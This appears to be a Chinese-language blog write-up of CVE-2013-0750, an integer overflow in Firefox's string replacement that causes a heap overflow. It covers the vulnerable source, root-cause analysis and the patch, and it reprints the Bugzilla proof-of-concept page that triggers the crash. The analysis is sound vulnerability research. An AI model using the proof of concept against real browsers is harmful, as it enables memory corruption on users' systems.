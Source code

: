 ```yaml
---
title: CVE-2013-0750 Investigation
toc: true
categories: Vulnerability Investigation
abbrlink: 19dd9d2a
date: 2024-12-12 17:29:44
updated: 2024-12-12 17:29:44
---
```


版本号小于 18.0 的 Firefox 中，JavaScript 引擎在解析字符串替换操作时存在整数溢出，导致分配国小的堆内存造成溢出进而导致任意代码执行

影响范围:

Mozilla Seamonkey 1.0 - 2.14
Mozilla Thunderbird 0.1 - 17.0
Mozilla Firefox 0.1 - 17.3
Suse Linux Enterprise Desktop 10/11
Suse Linux Enterprise Server 10/11
Suse Linux Enterprise Software Development KIT 10/11
Opensuse Opensuse 11.4
Opensuse Opensuse 12.2
Opensuse Opensuse 12.1
Redhat Enterprise Linux Server 5.0/6.0
Redhat Enterprise Linux Workstation 5.0/6.0
Redhat Enterprise Linux Desktop 5.0/6.0
Redhat Enterprise Linux EUS 5.9/6.3
Canonical Ubuntu Linux 11.10
Canonical Ubuntu Linux 12.10
Canonical Ubuntu Linux 12.04
Canonical Ubuntu Linux 10.04

<!--more-->

## 漏洞分析

Firefox 是开源的，可直接通过源码静态分析漏洞成因。以下分析以 [Firefox 17.0](http://releases.mozilla.org/pub/mozilla.org/firefox/releases/17.0/source/firefox-17.0.source.tar.bz2) 为例

调试运行源码编译并开启 enable-debug 选项的 Firefox 并打开样本后程序触发 Access Violation 异常而中断，由于有源码故通过栈回溯可发现函数调用链为 `ReplaceRegExpCallback` -> `DoReplace` -> `Vector`，可定位到 Crash Point 位于 `mozilla-release/js/src/jsstr.cpp` 的 2067 行，相关代码如下

```C++
/*
 * Precondition: |rdata.sb| already has necessary growth space reserved (as
 * derived from FindReplaceLength).
 */
static void
DoReplace(JSContext *cx, RegExpStatics *res, ReplaceData &rdata)
{
    JSLinearString *repstr = rdata.repstr;
    const jschar *cp;
    const jschar *bp = cp = repstr->chars();

    const jschar *dp = rdata.dollar;
    const jschar *ep = rdata.dollarEnd;
    for (; dp; dp = js_strchr_limit(dp, '$', ep)) {
        /* Move one of the constant portions of the replacement value. */
        size_t len = dp - cp;
        rdata.sb.infallibleAppend(cp, len);
        cp = dp;

        JSSubString sub;
        size_t skip;
        if (InterpretDollar(cx, res, dp, ep, rdata, &sub, &skip)) {
            len = sub.length;
            rdata.sb.infallibleAppend(sub.chars, len); //！ Crash Point
            cp += skip;
            dp += skip;
        } else {
            dp++;
        }
    }
    rdata.sb.infallibleAppend(cp, repstr->length() - (cp - bp));
}

static bool
ReplaceRegExpCallback(JSContext *cx, RegExpStatics *res, size_t count, void *p)
{
    ReplaceData &rdata = *static_cast<ReplaceData *>(p);

    rdata.calledBack = true;
    size_t leftoff = rdata.leftIndex;
    size_t leftlen = res->matchStart() - leftoff;
    rdata.leftIndex = res->matchLimit();

    size_t replen = 0;  /* silence 'unused' warning */
    if (!FindReplaceLength(cx, res, rdata, &replen))
        return false;

    size_t growth = leftlen + replen;
    if (!rdata.sb.reserve(rdata.sb.length() + growth))
        return false;

    JSLinearString &str = rdata.str->asLinear();  /* flattened for regexp */
    const jschar *left = str.chars() + leftoff;

    rdata.sb.infallibleAppend(left, leftlen); /* skipped-over portion of the search value */
    DoReplace(cx, res, rdata);
    return true;
}
```

Crash Point 处为 `rdata.sb` 的 `infallibleAppend` 方法调用，`DoReplace` 函数内未发现 `rdata.sb` 存在问题操作，污点分析到 `DoReplace` 的主调函数 `ReplaceRegExpCallback`，发现可疑操作 `rdata.sb.reserve(rdata.sb.length() + growth)`。在 `ReplaceRegExpCallback` 下断点进行动态分析发现执行到 `rdata.sb.reserve(rdata.sb.length() + growth)` 时 `growth` 为 0，很像整数溢出后的结果。对 `growth` 进行污点分析，溯源到 `FindReplaceLength` 函数，其相关代码如下

```C++
static bool
FindReplaceLength(JSContext *cx, RegExpStatics *res, ReplaceData &rdata, size_t *sizep)
{
    ...
    JSString *repstr = rdata.repstr;
    size_t replen = repstr->length();
    for (const jschar *dp = rdata.dollar, *ep = rdata.dollarEnd; dp;
         dp = js_strchr_limit(dp, '$', ep)) {
        JSSubString sub;
        size_t skip;
        if (InterpretDollar(cx, res, dp, ep, rdata, &sub, &skip)) {
            replen += sub.length - skip;
            dp += skip;
        } else {
            dp++;
        }
    }
    *sizep = replen;
    return true;
}
```

注意到可疑操作 `replen += sub.length - skip;`，在该处下条件断点进行动态分析。发现 `replen` 在循环中每次递增 0xFFFFE，在循环结束后溢出为 0。`ReplaceRegExpCallback` 中的 `growth` 变量因此变小，使得 `rdata.sb` 的 `reserve` 方法为字符串替换分配的堆块过小，并在 `DoReplace` 函数内进行字符串替换时因预留空间不足发生堆溢出，程序崩溃

## 漏洞利用

该漏洞尚未发现通用的漏洞利用方式，令人感慨

## Exploit 分析

POC 来自于 [Bugzilla](#reference)

```HTML
<html>
    <script type="text/javascript">
 
        function puff(x, n){
            while(x.length<n) x+=x;
            x = x.substring(0, n);
            return x;
        }
        var x = "1";
        var rep = "$1";
 
        x = puff(x, 1<<20);
        rep = puff(rep, 1<<16);
        y = x.replace(/(.+)/g, rep);
        alert(y.length);
 
    </script>
</html>
```

`puff` 函数会将字符串自我凭借到指定长度，POC 通过该函数创建了长度为 2^20 的字符串 `x` 和长度为 2^16 的字符串 `rep` 且 `rep` 内包含了大量与 `x` 相似的字串，随后通过正则表达式使用 `replace` 方法对字符串进行替换。由于字符串的长度惊人，故其得以触发上述整数溢出漏洞

## 漏洞修复

Patch 后 `replen` 变量类型从 `size_t` 变成了 `CheckedInt<uint32_t>`，该类定义在 CheckedInt.h 头文件中，提供了检测整数值是否在有效范围内的 `isValid` 方法。同时 `FindReplaceLength` 函数将在循环处理 `replen` 时对其大小进行判断确保 `replen` 为正整数递增，循环结束后会再调用 `isValid` 方法判断 `replen` 是否溢出，是则会报告溢出并返回失败

## Reference

[NVD - CVE-2013-0750](https://nvd.nist.gov/vuln/detail/CVE-2013-0750)
[CVE - CVE-2013-0750](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2013-0750)
[Github - CVE-2013-0750](https://github.com/advisories/GHSA-f77x-4q67-r7px)
[Bugzilla - String Replacement Heap Corruption Remote Code Execution Vulnerability (ZDI-CAN-1473)](https://bugzilla.mozilla.org/show_bug.cgi?id=805121)
[漏洞战争](https://book.douban.com/subject/26830238/)
